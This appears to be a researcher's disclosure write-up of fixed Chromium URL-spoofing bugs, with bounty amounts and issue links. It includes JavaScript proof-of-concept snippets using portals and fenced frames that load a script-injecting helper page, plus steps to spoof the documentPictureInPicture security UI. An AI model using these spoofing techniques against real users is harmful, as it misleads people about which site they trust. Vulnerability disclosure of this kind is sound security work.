 ```yaml
---
title: URL Spoof (Fixed)
---
```


# Navigating a crashed page

By crashing a cross-origin pop-up then navigating it to `data:html,foo` which gets blocked, The URL would stay cross-site but the page would be same-origin
[Issue 40054631](https://issues.chromium.org/issues/40054631) was duplicate but made a good twitter background.

Later there was a ghost image issue where the page stayed cross-origin but the contents of the previous page showed [Issue 40057561](https://issues.chromium.org/issues/40057561) was awarded $1000

I also tried the same thing with portals [Issue 40064170](https://issues.chromium.org/40064170) and it worked was awarded $2000. [video PoC](https://www.youtube.com/watch?v=yy7dR88RIHw)

```js
// --enable-features=Portals,PortalsCrossOrigin
// onclick is optional
onclick = () => {
  portal = document.createElement('portal');
  // Victim page crashs
  portal.src = 'https://ndev.tk/crashself.html';
  document.body.appendChild(portal);
  setTimeout(() => {
    // HTTP STATUS 204
    portal.src = 'https://terjanq.me/xss.php?status=204';
    portal.activate();
  }, 6000);
};
```

These attacks where migrated by needing to crash cross-site, however [Issue 40054631](https://issues.chromium.org/issues/40054631) had a way to do it similar to the [crossOriginIsolated bypass](https://ndevtk.github.io/writeups/2021/12/30/crossoriginisolated-bypass/) and any extension can crash any tab [Issue 40848497](https://issues.chromium.org/issues/40848497)

# Spoofing documentPictureInPicture

Did not update security UI on `about:blank` navigations so any window reference allows for a spoof. [video PoC](https://www.youtube.com/watch?v=yiAr4J-e6P8)

- Enable feature `chrome://flags/#document-picture-in-picture-api` (in Origin Trial)
- On victim page do `documentPictureInPicture.requestWindow();`
- Victim PiP opens popup to attacker page like `open('https://example.org', '', 'popup=1');`
- On attacker page run `opener.location = 'about:blank';` and notice security UI did not update.
- On attacker page run `opener.document.write('foo');`

This was awarded $1000 and fixed in [Issue 40062959](https://issues.chromium.org/40062959) by ensuring subsequent about:blank loads close the PiP window.
First patch was bypassable by using the extension `chrome.tabs.discard()` API. [video PoC](https://www.youtube.com/watch?v=yH-Cd0wWJEU).

When using fenced frames `documentPictureInPicture` would display the top-page origin not the embed.

```js
f = document.createElement('fencedframe');
f.src =
  'https://terjanq.me/xss.php?h[Supports-Loading-Mode]=fenced-frame&js=onclick=()=>documentPictureInPicture.requestWindow();';
document.body.appendChild(f);
```

This was awarded $4000 and fixed in [Issue 40062954](https://issues.chromium.org/40062954) [Issue 40063068](https://issues.chromium.org/40063068) by making it so non-topmost frames can't open PiP.

